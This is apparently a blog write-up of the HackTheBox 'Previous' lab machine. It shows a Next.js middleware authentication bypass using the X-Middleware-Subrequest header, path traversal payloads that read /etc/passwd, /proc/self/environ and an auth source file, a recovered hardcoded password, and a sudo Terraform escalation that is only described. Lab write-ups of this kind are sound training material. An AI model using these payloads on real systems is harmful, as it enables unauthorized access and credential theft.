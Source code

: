 ```yaml
---
title: "HackTheBox Previous Writeup"
date: 2025-09-22
categories: [HTB, Machines]
tags: [Linux, terraform,CVE]
image:
  path: /assets/previous-htb/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Previous HTB — blog writeup cover"
---
```



## Nmap Scan

I started with a full port scan:
```shell
sudo nmap 10.10.11.83 -T4 -A -open -p-
```
![nmap](/assets/previous-htb/nmap.png)
the scan showed a web server running on port 80. There’s a login page and on it, I found an email: ```jeremy@previous.htb```
- tried using tools to brute force the login with jeremy as the username.
- I looked for ways to bypass the login  maybe a logic flaw, or something in the JavaScript.
- I found some interesting paths but they all needed me to be logged in first.<br>
Stuck? Maybe. But not for long.

```PreviousJS``` That Name Sounds Familiar The website uses something called ```PreviousJS.```.<br>
 I remembered  there was a recent vulnerability ```CVE-2025-29927```

## CVE-2025-29927

Found in March by ```Allam Yasser (@inzo_)``` and his friend ```Allam Rachid (@zhero_)```.<br>
You can read more about it here:<br>[https://github.com/aydinnyunus/CVE-2025-29927](https://github.com/aydinnyunus/CVE-2025-29927)<br>
This CVE lets you bypass authentication by sending a special header.
The Magic Header To get past the login, I added this header to my request:
```shell
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```
Example request:

```shell
GET /_next/data/qVDR2cKpRgqCslEh-llk9/docs.json HTTP/1.1
Host: previous.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
Content-Type: text/html
Upgrade-Insecure-Requests: 1
If-None-Match: "17m2fyh3hl048k"
Priority: u=0, i
```
And just like that I got access to pages that should have been locked behind login
![access](/assets/previous-htb/access.png)

## Hidden Paths & LFI

Found Interesting Paths After bypassing the login, I checked this file which exist in by reading source code:
```shell
http://previous.htb/_next/static/qVDR2cKpRgqCslEh-llk9/_buildManifest.js
```
![hidden](/assets/previous-htb/hidden.png)
Inside, I found a list of internal paths:
```shell
/
/_error
/docs
/docs/components/layout
/docs/components/sidebar
/docs/content/examples
/docs/content/getting-started
/docs/[section]
/signin
```
These are not just links they’re a map of the app’s structure Very useful for knowing where to look next.<br>
Found a Download Endpoint The I found this:
![helloworld](/assets/previous-htb/helloworld.png)
which by reading source code I found endpoint:
![endpoint](/assets/previous-htb/endpoint.png)

It lets users download files. That’s interesting and often dangerous.<br>
When you see “download” + user input?<br>
Think: Local File Inclusion (LFI).

I tested with:
```shell
/api/download?example=../../../../etc/passwd
```
It returned the contents of /etc/passwd.
![passwd](/assets/previous-htb/passwd.png)

## Next.js & User.txt

I confirmed that the server is running a ```Next.js``` application, likely under the user ```nextjs``` or ```node```. <br>
This tells us the backend environment and helps us focus our next steps.<br>
In Linux, each running process has a special file:
```shell
/proc/self/environ
```
This file contains all environment variables for the current process in our case, the ```Next.js```server.<br> I accessed it using our LFI:
```shell
/api/download?example=../../../../proc/self/environ
```
![environ](/assets/previous-htb/environ.png)
The output showed us important details:

- Working directory: ```PWD=/app```
- Possibly sensitive values like API keys or database passwords
- The word “self” means: “the process currently handling this request” which is the ``` Next.js``` server.

This is a major win. I now know the application lives in ```/app```.<br>
With ```/app``` as our root, I can now look for key files and folders that define how the ```Next.js``` app works.

Based on ```Next.js``` [documentation](https://nextjs.org/docs/app/getting-started/project-structure), I expect to find:
- ```.next/``` compiled files, server code, and routing info
- ```routes-manifest.json``` lists all routes, rewrites, and redirects
- Special files like ```middleware.js```, ```next.config.js```, and ```API routes```<br>

So I focused on the ```.next``` folder because it holds backend logic including compiled server-side code.<br>
Inside ```.next/routes-manifest.json/```i found:
![routes](/assets/previous-htb/routes.png)
This file handles authentication logic how users log in, how sessions are managed, and where credentials are checked.
We read its contents through LFI:
```shell
/api/download?example=../../../../app/.next/server/pages/api/auth/[...nextauth].js
```
Inside, we found hardcoded credentials:
![creds](/assets/previous-htb/creds.png)
```shell
jeremy:MyNameIsJeremyAndILovePancakes
```
![user](/assets/previous-htb/user.png)


##  Root.txt

After gaining access as the user ```jeremy```, I ran linpeas.sh to look for possible privilege escalation paths.<br>
The scan did not highlight anything obvious, so I manually checked what commands the user can run with sudo.
```shell
sudo -l
```
Showed that jeremy can run Terraform as root:
![terraform](/assets/previous-htb/terraform.png)
This is a strong lead  being able to run Terraform with root privileges in a specific directory often opens the door to code execution as root, especially if environment variables are not properly restricted.

I searched for known exploits related to ```sudo + Terraform``` and found a detailed write-up:
[https://dollarboysushil.com/posts/Terraform-Sudo-Exploit-Privilege-Escalation/](https://dollarboysushil.com/posts/Terraform-Sudo-Exploit-Privilege-Escalation/)

The article explains how to abuse Terraform’s ```provider_installation``` and the ```TF_CLI_CONFIG_FILE``` environment variable to force Terraform to load and execute a malicious provider script as root.<br>

> JUST GO THROUGH WITH ARATICAL AND GET EASY ROOT
{: .prompt-info }